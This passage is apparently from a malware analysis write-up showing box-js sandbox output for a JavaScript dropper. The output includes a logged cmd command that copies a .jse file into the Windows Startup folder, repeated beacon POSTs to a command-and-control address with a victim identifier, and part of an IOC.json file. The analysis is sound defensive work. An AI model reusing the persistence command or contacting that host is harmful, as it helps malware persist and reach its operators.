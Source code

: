 ```sh
[info] beautified.js.1.results/5b430cf8-3c84-4093-906b-8bfe2cca604d has been detected as ASCII text, with no line terminators.
[info] IOC: The script created a resource.
[info] IOC: The script read a file.
[info] IOC: The script ran the command 'cmd /U /Q /C copy /Y "C:\Users\MyUsername\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp\seter64.jse" ".jse" && del /Q/F ""'.
[info] XMLHTTP https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&92&uid=1526398773&out=0&ver=20
[info] IOC: The script opened URL https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&92&uid=1526398773&out=0&ver=20 with XMLHTTP
[info] Header set for https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&92&uid=1526398773&out=0&ver=20:
[info] Data sent to https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&92&uid=1526398773&out=0&ver=20:
[info] POST https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&92&uid=1526398773&out=0&ver=20
[info] IOC: The script fetched an URL.
[info] Returning HTTP 200 (Success) with fake response payload 'console.log("EXECUTED DOWNLOADED PAYLOAD");'

-- A lot more --
```
The nice thing about `box-js` is that it creates a file named `IOC.json` that has stored in there all logged Indicators of Compromise (e.g., commands that were run on the systems, domains that where reached, files that were dropped etc.).  

Viewing the IOC.json for this sample reveals the following insights about the dropper:  
```json
└─$ cat IOC.json                                                                   
[
        {
                "type": "Sample Name",
                "value": {
                        "sample-name": "CURRENT_SCRIPT_IN_FAKED_DIR.js",
                        "sample-name-full": "C:Users\\Sysop12\\AppData\\Roaming\\Microsoft\\Templates\\CURRENT_SCRIPT_IN_FAKED_DIR.js"
                },
                "description": "Using standard fake sample file name C:Users\\Sysop12\\AppData\\Roaming\\Microsoft\\Templates\\CURRENT_SCRIPT_IN_FAKED_DIR.js when analyzing."
        },
        {
                "type": "Environ",
                "value": "temp",
                "description": "The script read an environment variable"
        },
        {
                "type": "Environ",
                "value": "userprofile",
                "description": "The script read an environment variable"
        },
        {
                "type": "FileRead",
                "value": {
                        "file": "C:Users\\Sysop12\\AppData\\Roaming\\Microsoft\\Templates\\CURRENT_SCRIPT_IN_FAKED_DIR.js"
                },
                "description": "The script read a file."
        },
        {
                "type": "FileRead",
                "value": {
                        "file": "C:\\Users\\MyUsername\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\seter64.jse"
                },
```